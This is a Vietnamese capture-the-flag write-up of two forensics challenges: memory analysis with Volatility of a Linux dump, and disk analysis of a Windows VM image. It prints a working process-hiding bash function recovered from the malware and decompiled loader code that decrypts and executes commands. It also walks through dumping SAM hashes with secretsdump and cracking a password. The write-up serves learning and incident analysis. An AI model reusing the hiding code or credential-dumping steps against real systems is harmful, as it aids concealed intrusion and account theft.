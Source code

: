# _APT 1337_

- Liệt kê tiến trình:
> linux.psaux.PsAux
> 
> linux.pslist.PsList

- Check file trong RAM (khá tương tự filescan của windows)
> linux.linux.pagecache.InodePages

Dùng strings grep ra được lấy được 1 số thông tin hữu ích sau:
```
hide() {
    [[ -L /etc/mtab ]] && { cp /etc/mtab /etc/mtab.bak; mv /etc/mtab.bak /etc/mtab; }
    _pid=${1:-$$}
    [[ $_pid =~ ^[0-9]+$ ]] && { mount -n --bind /dev/shm /proc/$_pid && echo "[THC] PID $_pid is now hidden"; return; }
    local _argstr
    for _x in "${@:2}"; do _argstr+=" '${_x//\'/\'\"\'\"\'}'"; done
    [[ $(bash -c "ps -o stat= -p \$\$") =~ \+ ]] || exec bash -c "mount -n --bind /dev/shm /proc/\$\$; exec \"$1\" $_argstr"
    bash -c "mount -n --bind /dev/shm /proc/\$\$; exec \"$1\" $_argstr"
}

hide /usr/sbin/daemon &


950     949     sudo    AES_KEY 7557a272bacc4186952a567db00ae817704d059ecfdc8e630c04d8aabecd1e04
950     949     sudo    AES_IV  068131ad1d5c0c1516fce836d510ccce
```

Thấy được dòng cuối thực hiện `hide /usr/sbin/daemon`, khả nghi nên dùng `linux.linux.pagecache.InodePages` để tìm file trong ram, lúc trong giải méo biết được plugin này nên chịu thua

`python3 /home/kali/volatility3/vol.py -f challenge.lime linux.pagecache.InodePages --find /usr/sbin/daemon --dump`


Dùng ida để reverse

```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _QWORD *v4; // rax
  __int64 v5; // rbx
  __int64 v6; // rbx
  __int64 v7; // rbx
  __int64 v8; // rbx
  __int64 v9; // rbx
  __int64 v10; // rbx
  __int64 v11; // rbx
  __int64 v12; // rbx
  __int64 v13; // rbx
  int fd; // [rsp+0h] [rbp-4C0h]
  int v15; // [rsp+4h] [rbp-4BCh]
  unsigned __int64 i; // [rsp+8h] [rbp-4B8h]
  char *v17; // [rsp+10h] [rbp-4B0h]
  char *v18; // [rsp+18h] [rbp-4A8h]
  time_t v19; // [rsp+20h] [rbp-4A0h]
  tm tp; // [rsp+30h] [rbp-490h] BYREF
  _BYTE v21[16]; // [rsp+70h] [rbp-450h] BYREF
  char v22[32]; // [rsp+80h] [rbp-440h] BYREF
  char command[1032]; // [rsp+A0h] [rbp-420h] BYREF
  unsigned __int64 v24; // [rsp+4A8h] [rbp-18h]

  v24 = __readfsqword(0x28u);
  fd = open("/tmp/.dat", 66, 384LL);
  if ( fd < 0 )
    return 1;
  if ( ftruncate(fd, 152LL) )
    return 1;
  zXb4W = (__int64)mmap(0LL, 0x98uLL, 3, 1, fd, 0LL);
  if ( zXb4W == -1 )
    return 1;
  v4 = (_QWORD *)zXb4W;
  v5 = qword_4028;
  *(_QWORD *)zXb4W = original_data;
  v4[1] = v5;
  v6 = qword_4038;
  v4[2] = qword_4030;
  v4[3] = v6;
  v7 = qword_4048;
  v4[4] = qword_4040;
  v4[5] = v7;
  v8 = qword_4058;
  v4[6] = qword_4050;
  v4[7] = v8;
  v9 = qword_4068;
  v4[8] = qword_4060;
  v4[9] = v9;
  v10 = qword_4078;
  v4[10] = qword_4070;
  v4[11] = v10;
  v11 = qword_4088;
  v4[12] = qword_4080;
  v4[13] = v11;
  v12 = qword_4098;
  v4[14] = qword_4090;
  v4[15] = v12;
  v13 = qword_40A8;
  v4[16] = qword_40A0;
  v4[17] = v13;
  v4[18] = qword_40B0;
  v17 = getenv("AES_KEY");
  v18 = getenv("AES_IV");
  if ( !v17 || !v18 )
    return 1;
  if ( (unsigned int)vNh3Z(v17, v22, 32LL) != 32 || (unsigned int)vNh3Z(v18, v21, 16LL) != 16 )
    return 1;
  v19 = time(0LL);
  memset(&tp, 0, 20);
  memset(&tp.tm_wday, 0, 32);
  tp.tm_year = 1100;
  tp.tm_mday = 1;
  if ( v19 < mktime(&tp) )
  {
    while ( 1 )
LABEL_20:
      sleep(1u);
  }
  for ( i = 0LL; i <= 0x97; ++i )
    *(_BYTE *)(zXb4W + i) ^= 0xAAu;
  v15 = pTq7L(zXb4W, 152LL, v22, v21, command);
  if ( v15 >= 0 )
  {
    command[v15] = 0;
    system(command);
    goto LABEL_20;
  }
  return 1;
}
```

Tạo file `tmp/.dat` chứa dữ liệu mã hóa, mình sẽ thực hiện tìm `tmp/.dat` trong ram

`python3 /home/kali/volatility3/vol.py -f challenge.lime linux.pagecache.InodePages --find /tmp/.dat --dump`

![image](https://github.com/user-attachments/assets/6e867d09-c0cc-4edc-a52e-b3af34eb267e)

Decrypt bằng cách xor với `0xAA` sau đó là AES

![image](https://github.com/user-attachments/assets/c24e4a2c-d8e0-405d-bc29-064b5a6db1c1)

# Blackdoor

Nếu mount trực tiếp vào `virtual box` thì cần pass đăng nhập nhưng có thể dùng kali để mount và lấy được thông tin `SAM`, `SECURITY` => mật khẩu đăng nhập windows

### Mount

Nhận được 1 file `.ova` thay extension thành `.tar` rồi extract ra được 1 file `.vmdk`. Dùng file vmdk này để mount

https://github.com/fox-it/dissect

`sudo /home/kali/.local/bin/target-mount Blackdoor-disk001.vmdk ~/Downloads/blackdoor/mount`

Dùng tool này để trích xuất thông tin login

https://github.com/fortra/impacket/blob/master/examples/secretsdump.py

![image](https://github.com/user-attachments/assets/ca959b33-a32f-454d-9892-57703d981236)

Lấy NTLM hash của John đem crack 

Pass: `1dodgeneon`

Đăng nhập vào check trong autoruns là thấy được 1 schedule task trông khả nghi

![image](https://github.com/user-attachments/assets/4af04a9a-70dd-4248-9ea4-a51edaec9b58)

Tên file đúng phải là `mscms.dll`, đây là cách ngụy trang của malware và kèm với việc `Not verified`

=> malware

Check md5

![image](https://github.com/user-attachments/assets/eeb41973-665b-463b-b30e-bdf28ae7f7ba)

Thấy chương trình được đặt lịch với tên `Calibration Loader`, check trong `Task Scheduler`

![image](https://github.com/user-attachments/assets/3058169e-7bdd-422d-abe6-2d3d54765b99)

Check ID

![image](https://github.com/user-attachments/assets/885dd9b3-c9df-4bdb-bb5e-0080b066931b)

Done.

## Tham khảo:
![image](https://github.com/user-attachments/assets/2a27acf8-5bee-4501-9954-38c4e173014e)

## Tổng kết
That was a great CTF challenge — I learned so many new things!

